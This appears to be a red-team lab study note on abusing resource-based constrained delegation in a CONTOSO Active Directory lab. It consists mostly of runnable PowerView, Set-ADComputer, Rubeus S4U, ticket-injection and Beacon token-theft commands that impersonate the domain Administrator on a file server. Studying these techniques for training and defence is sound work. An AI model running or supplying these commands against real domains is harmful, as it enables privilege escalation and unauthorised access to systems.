 
> [!NOTE] **Note**
> This is much easier to do through a SOCKS proxy using PowerView
> 
> Setup found [here](obsidian://open?vault=Offensive%20Security&file=root%2FRed%20Teaming%2FCobalt%20Strike%20Assumed%20Breach%2F10.%20Pivoting%2F_%20Main)

Import PowerView
```powershell
ipmo C:\Tools\PowerSploit\Recon\PowerView.ps1
```

Setup credentials to be used
```powershell
‌$Cred = Get-Credential CONTOSO\rsteel
```

Find principals that have WriteProperty privileges on the `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute of computers.
```powershell
Get-DomainComputer -Server 'lon-dc-1' -Credential $Cred | Get-DomainObjectAcl -Server 'lon-dc-1' -Credential $Cred | ? { $_.ObjectAceType -eq '3f78c3e5-f79a-46bd-a0b8-9d18116ddc79' -and $_.ActiveDirectoryRights -eq 'WriteProperty' } | select ObjectDN,SecurityIdentifier

Get-DomainComputer -Credential $Cred | Get-DomainObjectAcl | ? { $_.ObjectAceType -eq '3f78c3e5-f79a-46bd-a0b8-9d18116ddc79' -and $_.ActiveDirectoryRights -eq 'WriteProperty' } | select ObjectDN,SecurityIdentifier
```

Resolve the SID to a domain group/user.
```powershell
Get-ADGroup -Filter 'objectsid -eq "SID"' -Server 'lon-dc-1' -Credential $Cred
```

Check for any existing RBCD configurations.
```powershell
Get-ADComputer -Filter * -Properties PrincipalsAllowedToDelegateToAccount -Server 'lon-dc-1' -Credential $Cred | select Name,PrincipalsAllowedToDelegateToAccount
```

Add RBCD between _RBCD machine_ and _controlled host_, making sure not to overwrite the existing entry.
```powershell
$existing_entry = Get-ADComputer -Identity 'existing_RBCD_entry' -Server 'lon-dc-1' -Credential $Cred

$controlled_host = Get-ADComputer -Identity 'controlled_host' -Server 'lon-dc-1' -Credential $Cred

Set-ADComputer -Identity 'RBCD_Machine' -PrincipalsAllowedToDelegateToAccount $existing_entry,$controlled_host -Server 'lon-dc-1' -Credential $Cred
```

Verify that controlled host was added was added.
```powershell
Get-ADComputer -Identity 'RBCD_host' -Properties PrincipalsAllowedToDelegateToAccount -Server 'lon-dc-1' -Credential $Cred | select Name,PrincipalsAllowedToDelegateToAccount
```

In the high-integrity Beacon, obtain a TGT for the controlled host.
```powershell
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe dump /luid:0x3e7 /service:krbtgt /nowrap
```

Request a usable service ticket for cifs/RBCD_host impersonating the default domain administrator.
```powershell
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe s4u /user:lon-wkstn-1$ /impersonateuser:Administrator /msdsspn:cifs/lon-fs-1 /nowrap /ticket:
```

Inject the ticket into a sacrificial logon session.
```powershell
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:CONTOSO.COM /username:Administrator /password:FakePass /ticket:
```

Impersonate spawned process and confirm
```powershell
steal_token [PID]
run klist
ls \\lon-fs-1\c$

rev2self       <--- Drop impersonation
kill [PID]
```